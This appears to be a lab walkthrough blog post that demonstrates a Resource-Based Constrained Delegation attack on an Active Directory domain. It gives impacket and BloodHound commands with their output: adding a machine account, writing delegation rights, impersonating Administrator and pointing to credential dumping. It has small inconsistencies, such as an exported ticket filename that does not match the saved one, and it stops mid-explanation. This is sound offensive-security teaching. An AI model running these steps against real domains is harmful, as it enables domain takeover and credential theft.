

Resource-Based Constrained Delegation is an interesting attack, in the right conditions it allows users to take control of computers and domains through the simple use of the very mechanics of the kerberos authentication protocol.

This blog focuses on demonstrating the practical exploitation of resource-based constrained delegation (RBCD) under different scenarios, both from Linux and Windows. No matter how hard I could try I wouldn’t be able to describe the theory behind it better than Elad Shamir did, so I’m just going to redirect you to his excellent blog if you don’t know how it works. If you are already familiar with it and only need a refresher just reading the description of the attacks here may be enough.

## Here is a scenarios

1. In our lab, there is 1 domain: alpha.lab
2. 1 domain controller: dc01.alpha.lab
3. 1 file server: srv1.alpha.lab
4. This machine was joined to the domain by Jenny Rice using her own account "j.rice@alpha.lab"
5. She was able to join machine to the domain using her own account because of the default configuration in Active Directory which allows any user to domain join up to 10 devices.

    ```powershell
    C:\Windows\system32> Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'                                          

    DistinguishedName         : DC=alpha,DC=lab
    ms-DS-MachineAccountQuota : 10
    Name                      : alpha
    ObjectClass               : domainDNS
    ObjectGUID                : 0db21467-cfd1-4699-acd6-618fcf9c3d4d
    ```

    ```shell
    ┌──(elodvk㉿kali)-[~]
    └─$ netexec ldap dc01.alpha.lab -k -u j.rice -p Welcome@123 -M maq
    LDAP        dc01.alpha.lab  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:alpha.lab)
    LDAP        dc01.alpha.lab  389    DC01             [+] alpha.lab\j.rice:Welcome@123 
    MAQ         dc01.alpha.lab  389    DC01             [*] Getting the MachineAccountQuota
    MAQ         dc01.alpha.lab  389    DC01             MachineAccountQuota: 10
    ```
6. Jenny's account was compromised because whe was using a very weak password.

## Pre-requisites

1. Control over an SPN
2. Writable `msDS-AllowedToActOnBehalfOf` Attribute

Some of the Active Directory object permissions and types that we as attackers are interested in:

 - GenericAll - Full rights to the object

## Performing the attack

### Preparation

I am using Kali linux to perform this attack, so the first thing I am going to do it update the `/etc/hosts` file to ensure that the domain is resolving to the correct IP address, and then I am also going to update my `krb5.conf` file to ensure that I can use kerberos authentication for all the logins.

Kerberos has been the default authentication method in Windows environments since Windows 2000. It's a core part of the Windows Active Directory (AD) service and provides a more secure and extensible authentication mechanism compared to NTLM. 

**Setup the `/etc/krb5.conf` file:**

```
[libdefaults]
    default_realm = ALPHA.LAB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    ALPHA.LAB = {
        kdc = dc01.alpha.lab
        admin_server = dc01.alpha.lab
    }

[domain_realm]
    .alpha.lab = ALPHA.LAB
    alpha.lab = ALPHA.LAB
```

**Update the local `hosts` file:**

```
172.17.1.100	dc01 dc01.alpha.lab alpha.lab
```

Then I am going to sync my attacker machine's time with the target domain controller  to ensure that kerberos authentication works. Kerberos is very sensitive to time difference, and if the time difference between the kdc and the client machine is more than 5 mins (default), authentication would fail.

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ sudo ntpdate dc01
    sudo: unable to resolve host kali: Temporary failure in name resolution
    2025-06-30 11:41:50.648922 (+0530) -28367.061489 +/- 0.000604 dc01 172.17.1.100 s1 no-leap
    CLOCK: time stepped by -28367.061489
    ```

### Get the victim's TGT

The first thing I am going to do is get the TGT for the user that we have already compromised.

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ impacket-getTGT alpha.lab/j.rice:Welcome@123                            
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Saving ticket in j.rice.ccache
    ```

Set the `KRB5CCNAME` variable:

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ export KRB5CCNAME=j.rice.ccache
    ```


### Mapping the attack path

Then using `bloohound`, I am going to map the attack path.

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ bloodhound-python -d alpha.lab -k -u j.rice -no-pass -ns 172.17.1.100  -c All --zip --use-ldaps           
    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    INFO: Found AD domain: alpha.lab
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc01.alpha.lab
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 2 computers
    INFO: Connecting to LDAP server: dc01.alpha.lab
    INFO: Found 90 users
    INFO: Found 55 groups
    INFO: Found 11 gpos
    INFO: Found 7 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: SRV1.alpha.lab
    INFO: Querying computer: dc01.alpha.lab
    INFO: Done in 00M 16S
    INFO: Compressing output into 20250630114932_bloodhound.zip
    ```


### Attack path analysis

1. J.rice has `WriteAccountRestrictions` permissions on SRV1.ALPHA.LAB. This is because she joined this machine to the domain.

    


### RBCD

1. To start with RBCD attack, I will need to control a user/computer with an SPN. Since, I can create a computer account due to the bad / default configuration which has not been corrected by the system admins, I can simply create a computer account which would satusfy this requirement.

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ impacket-addcomputer alpha.lab/j.rice -k -no-pass -dc-host dc01.alpha.lab -method SAMR -computer-name 'SRV2' -computer-pass 'Welcome@123'
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Successfully added machine account SRV2$ with password Welcome@123.

    ```

3. Once the computer account is created, I can update the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the target using `impacket-rbcd`.

    ```shell
    ┌──(elodvk㉿kali)-[~/homelab]
    └─$ impacket-rbcd alpha.lab/j.rice -k -no-pass -dc-ip 172.17.1.100 -delegate-from 'SRV2$' -delegate-to 'SRV1$' -action write -use-ldaps
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] SRV2$ can now impersonate users on SRV1$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     SRV2$        (S-1-5-21-3126301996-1406783378-2546799489-1605)
    ```

4. Now that delegation is set I can simply request a service ticket with `impacket-getST`, which will go through the S4U2Self+S4U2Proxy process and gives me an impersonation ticket:

```shell
┌──(elodvk㉿kali)-[~/homelab]
└─$ impacket-getST 'alpha.lab/srv2$' -k -no-pass -spn 'cifs/srv1.alpha.lab' -impersonate 'Administrator'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_srv1.alpha.lab@ALPHA.LAB.ccache
```
```shell
 export KRB5CCNAME=j.rice@cifs_srv1.alpha.lab@ALPHA.LAB.ccache
```

6.  I can now authenticate to the target as Administrator using the impersonation TGS. Make sure we can resolve domain names properly and that the host and domain names are the same ones included in the ticket, or kerberos authentication will not work:

Obviously any service accepting kerberos authentication can be used with the obtained tickets, so if we don’t want a simple shell we can dump the host’s SAM and LSA secrets with secretsdump, or the whole NTDS database if we have a DC:


